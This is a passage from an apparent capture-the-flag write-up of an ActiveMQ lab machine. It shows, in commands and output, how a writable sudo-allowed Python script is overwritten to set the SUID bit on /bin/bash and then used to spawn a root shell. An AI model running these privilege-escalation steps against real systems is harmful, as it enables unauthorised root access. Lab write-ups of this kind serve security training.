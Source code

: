 As you can see, **we can run `/usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py` as root without password!**

```
activemq@activemq:/opt/apache-activemq-5.9.0$ ls -lah subscribe.py
-rw-rw-r-- 1 activemq activemq 768 Dec 25  2020 subscribe.py
```

And we have permission to modify that python script!

**Let's modify it!**
```
activemq@activemq:/opt/apache-activemq-5.9.0$ cat << EOF > subscribe.py
> import os
>
> os.system('chmod +s /bin/bash')
> EOF
```

This will add a SUID sticky bit to `/bin/bash`.

**Finally, run `/usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py` via sudo:**
```
activemq@activemq:/opt/apache-activemq-5.9.0$ sudo /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
```

**Verify `/bin/bash` has SUID sticky bit or not:**
```
activemq@activemq:/opt/apache-activemq-5.9.0$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.2M Apr 18  2019 /bin/bash
```

**Nice! Let's spawn a Bash shell with SUID privilege (root):**
```
activemq@activemq:/opt/apache-activemq-5.9.0$ /bin/bash -p
bash-5.0# whoami;hostname;id;hostname -I
root
activemq
uid=1000(activemq) gid=1000(activemq) euid=0(root) egid=0(root) groups=0(root)
10.10.179.241 172.17.0.1
```

I'm root! :D

## Rooted

**root.txt:**
```
bash-5.0# cat /root/root.txt
THM{Redacted}
```

# Conclusion

What we've learned:

1. Using MQTT Client to Subscribe Topics
2. Exploiting Apache ActiveMQ via Web Shell Upload
3. Vertical Privilege Escalation via Modifying `/etc/shadow`
4. Vertical Privilege Escalation via Misconfigurated Sudo Permission